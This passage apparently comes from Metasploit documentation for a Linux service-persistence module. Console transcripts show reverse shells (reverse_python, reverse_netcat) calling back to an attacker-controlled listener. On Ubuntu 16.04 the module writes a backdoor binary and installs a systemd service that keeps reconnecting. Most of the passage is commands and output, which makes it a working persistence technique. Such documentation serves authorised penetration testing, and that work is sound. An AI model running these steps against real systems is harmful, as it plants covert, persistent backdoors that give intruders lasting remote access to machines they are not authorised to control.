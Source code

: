 And now, we can kill the callback shell from our previous session

    ^Z
    Background session 5? [y/N]  y
    msf exploit(service_persistence) > sessions -i 1
    [*] Starting interaction with 1...
    
    netstat -antp | grep 4444
    tcp        0      0 10.10.60.175:44368      10.10.60.168:4444       ESTABLISHED 1783/bash
    tcp        0      0 10.10.60.175:44370      10.10.60.168:4444       ESTABLISHED 1789/python
    kill 1783
    [*] 10.10.60.175 - Command shell session 5 closed.  Reason: Died from EOFError
    kill 1789

Now with a multi handler, we can catch Upstart restarting the process every 10sec

    msf > use exploit/multi/handler 
    msf exploit(handler) > set payload cmd/unix/reverse_python
    payload => cmd/unix/reverse_python
    msf exploit(handler) > set lhost 10.10.60.168
    lhost => 10.10.60.168
    msf exploit(handler) > exploit
    
    [*] Started reverse handler on 10.10.60.168:4444 
    [*] Starting the payload handler...
    [*] Command shell session 3 opened (10.10.60.168:4444 -> 10.10.60.175:44390) at 2016-06-22 08:26:48 -0400


### systemd (Ubuntu 16.04 Server - root)
Ubuntu 16.04 doesn't have many of the default shell options, however `cmd/unix/reverse_netcat` works.
While python shellcode works on previous systems, on 16.04 the path is `python3`, and therefore `python` will fail the shellcode.

Get initial access

    msf exploit(handler) > use exploit/linux/local/service_persistence
    msf exploit(service_persistence) > set session 1
    session => 1
    msf exploit(service_persistence) > set verbose true
    verbose => true
    msf exploit(service_persistence) > set payload cmd/unix/reverse_netcat
    payload => cmd/unix/reverse_netcat
    msf exploit(service_persistence) > set lhost 192.168.199.128
    lhost => 192.168.199.128
    msf exploit(service_persistence) > exploit
    
    [*] Started reverse handler on 192.168.199.128:4444 
    [*] Writing backdoor to /usr/local/bin/JSRCF
    [*] Max line length is 65537
    [*] Writing 103 bytes in 1 chunks of 361 bytes (octal-encoded), using printf
    [*] Utilizing systemd
    [*] /lib/systemd/system/YelHpCx.service
    [*] Max line length is 65537
    [*] Writing 151 bytes in 1 chunks of 579 bytes (octal-encoded), using printf
    [*] Enabling service
    [*] Starting service
    [*] Command shell session 7 opened (192.168.199.128:4444 -> 192.168.199.130:47050) at 2016-06-22 10:35:07 -0400
    